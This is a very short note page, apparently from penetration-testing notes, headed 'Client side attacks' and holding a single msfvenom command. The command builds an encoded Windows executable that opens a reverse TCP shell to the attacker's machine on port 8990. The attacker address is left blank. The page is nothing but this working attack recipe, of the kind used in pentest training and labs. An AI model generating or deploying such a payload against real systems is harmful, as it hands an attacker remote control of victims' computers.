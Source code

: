 # Client side attacks

```
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST= LPORT=8990 -e x86/shikata_ga_nai -f exe -o out.exe
```
